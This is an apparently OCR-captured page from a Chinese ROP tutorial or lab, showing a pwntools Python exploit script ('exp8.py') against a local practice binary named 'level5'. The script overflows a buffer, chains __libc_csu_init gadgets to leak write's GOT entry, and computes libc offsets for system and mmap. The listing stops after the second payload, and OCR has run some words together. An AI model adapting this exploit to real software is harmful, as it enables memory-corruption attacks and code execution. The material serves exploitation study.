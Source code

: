 完整的exp8.py代码如下:  
``` python
#!/usr/bin/env python
frompwn import *    

elf = ELF('level5')
libc = ELF('libc.so.6') 

p = process('./level5')
#p = remote('127.0.0.1',10001)  

got_write = elf.got['write']
print "got_write: " + hex(got_write)
got_read = elf.got['read']
print "got_read: " + hex(got_read)
plt_read = elf.symbols['read']
print "plt_read: " + hex(plt_read)
linker_point = 0x600ff8
print "linker_point: " + hex(linker_point)
got_pop_rax_ret = 0x0000000000023970
print "got_pop_rax_ret: " + hex(got_pop_rax_ret)    

main = 0x400564 

off_system_addr = libc.symbols['write'] - libc.symbols['system']
print "off_system_addr: " + hex(off_system_addr)
off_mmap_addr = libc.symbols['write'] - libc.symbols['mmap']
print "off_mmap_addr: " + hex(off_mmap_addr)
off_pop_rax_ret = libc.symbols['write'] - got_pop_rax_ret
print "off_pop_rax_ret: " + hex(off_pop_rax_ret)    

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)   

p.recvuntil("Hello, World\n")   

print "\n#############sending payload1#############\n"
p.send(payload1)
sleep(1)    

write_addr = u64(p.recv(8))
print "write_addr: " + hex(write_addr)
mmap_addr = write_addr - off_mmap_addr
print "mmap_addr: " + hex(mmap_addr)
pop_rax_ret = write_addr - off_pop_rax_ret
print "pop_rax_ret: " + hex(pop_rax_ret)    

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=linker_point, rdx=4)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(linker_point) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)   

p.recvuntil("Hello, World\n")   

```